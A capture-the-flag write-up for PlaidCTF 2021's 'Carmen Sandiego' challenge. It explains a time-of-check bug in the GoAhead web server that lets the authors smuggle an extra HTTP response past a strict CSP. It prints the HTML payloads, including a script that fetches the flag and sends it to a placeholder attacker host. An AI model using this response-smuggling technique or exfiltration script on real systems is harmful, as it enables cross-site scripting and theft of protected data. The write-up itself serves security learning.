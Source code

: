 # PlaidCTF 2021 

## Carmen Sandiego

### Setup

![](./setup.png)

As described in the diagram above, we somehow had to get the flag through the victim visiting the URL supplied by us. Because of the cookie, it would probably have to be on the same origin as the flag, so if we could get XSS somehow, we get the flag. However, there was a quite strict CSP that forbid script execution except for scripts with the correct nonce.

### 1. Season

The first season had an unintended solution where we could execute JavaScript by simply giving URLs that started with `javascript:...`
and it would be executed on the page that was open at the time, which conveniently was the index page of the IoT Hub.

### 2. Season

Season 2 fixed this mistake by only allowing http(s) urls and creating a new page.

The README.md file gave us a hint where to look: 
```
The intended solution uses a bug in `file.c` of GoAhead.  (Feel free to look for bugs elsewhere though!)
```

Looking throught the file, we noticed one thing:

```c
websWriteHeaders(wp, info.size, 0);

...

if (info.size > 0) {
    websSetBackgroundWriter(wp, fileWriteEvent);
} else {
    websDone(wp);
}

```
 
 
 ```c
 static void fileWriteEvent(Webs *wp)
{
   ...
    while ((len = websPageReadData(wp, buf, ME_GOAHEAD_LIMIT_BUFFER)) > 0) {
        ...
    }
    ...
}

 ```
  ```c
PUBLIC ssize websPageReadData(Webs *wp, char *buf, ssize nBytes)
{
    ...
    return websReadFile(wp->docfd, buf, nBytes);
}


 ```
 
 ```c
 PUBLIC ssize websReadFile(int fd, char *buf, ssize size)
{
    ...
    return read(fd, buf, (uint) size);
    ...
}
 ```
 
 There is a TOCTOU (Time-of-check to time-of-use) problem, the content length gets sent first, but that size is not used as a limit for the sending, so if we write to the file after the content length has been set, we can write more than the content length specified.
 
We further notice that HTTP/1.1 with `Connection: keep-alive` is being used. So could we just append more HTTP requests, kind of like with HTTP request smuggling, but with responses instead?

No better time to try than now, and sure enough, after some failed tries, chrome finally mistook one of our appended responses as another one. 

![](./success.png)

This was achieved by uploading a html payload like this for the page the victim is going to visit:

```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_prep"/> <!-- Debugging -->
        <Iframe src='./camone?0'></iframe>
        <Iframe src='./camone?1'></iframe>
        <Iframe src='./camone?2'></iframe>
        <Iframe src='./camone?3'></iframe>
        <Iframe src='./camone?4'></iframe>
        <Iframe src='./camone?5'></iframe>
        <Iframe src='./camone?6'></iframe>
        <Iframe src='./camone?7'></iframe>
        <img src="http://<your_machine>/end_of_prep"/> <!-- Debugging -->
    </body>
</html>
```

and uploading a payload for the file that is going to get replaced while it is being served.

Payload A
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_a"/> <!-- Debugging -->
        many AAAA...
        <img src="http://<your_machine>/end_of_cam_one_a"/> <!-- Debugging -->
    </body>
</html>
```


Payload B
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_b"/> <!-- Debugging -->
        fewer BBBB...
        <img src="http://<your_machine>/end_of_cam_one_b"/> <!-- Debugging -->
    </body>
</html> <!-- note that the new response has to start in a new tcp packet -->
HTTP/1.1 200 OK
Content-Length: ...
Connection: keep-alive
<html>
    <body>
        Hello World!
        <script>
            fetch("/cgi-bin/flag").then(r => r.text()).then(flag => fetch("http://<your_machine>/flag?" + flag))
        </script>
    </body>
</html>
...
```



While chrome is downloading the payload a for the first few iframes, we replace the file with payload B so that the server now sends more than it has announced in the content-length header. Chrome will only open a certain number of connections to the same origin, so by making many requests, more requests would be made through the same connection and mistake our appended HTML response as the requested one later.

The injected HTTP response contains a simple javascript payload extracting the flag. Because we have full control over the HTTP headers, we don't have to worry about CSP.

(The `<img .../>` were for debugging on the server and helped us to properly time the replacement of the payload)

This would give us the first flag of Season two, for the second flag, the service which we used to upload the files was changed to only allow more restricted input. We did not solve this in time.

While this was probably the intended way of solving this challenge, another team found [a different one by exploiting the renderer](https://ptr-yudai.hatenablog.com/entry/2021/04/19/140802) :o 





